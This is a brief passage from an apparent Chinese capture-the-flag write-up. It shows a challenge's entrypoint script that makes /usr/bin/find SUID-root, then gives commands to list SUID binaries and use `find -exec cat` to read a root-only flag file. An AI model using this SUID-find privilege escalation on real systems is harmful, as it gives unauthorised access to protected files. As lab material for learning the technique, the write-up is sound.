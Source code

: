 查看entrypoint.sh就可以知道了find有suid权限，也可以`find / -perm -4000 -type f 2>/dev/null`

```bash
#!/bin/sh

echo $FLAG > /m1n1FL@G
echo "\nNext, let's tackle the more challenging misc/pyjail">> /m1n1FL@G
chmod 600 /m1n1FL@G
chown root:root /m1n1FL@G

chmod 4755 /usr/bin/find

useradd -m minilUser
export FLAG=""
chmod -R 777 /app
su minilUser -c "python /app/app.py"
```

然后`find . -exec cat /m1* \; >app.py`
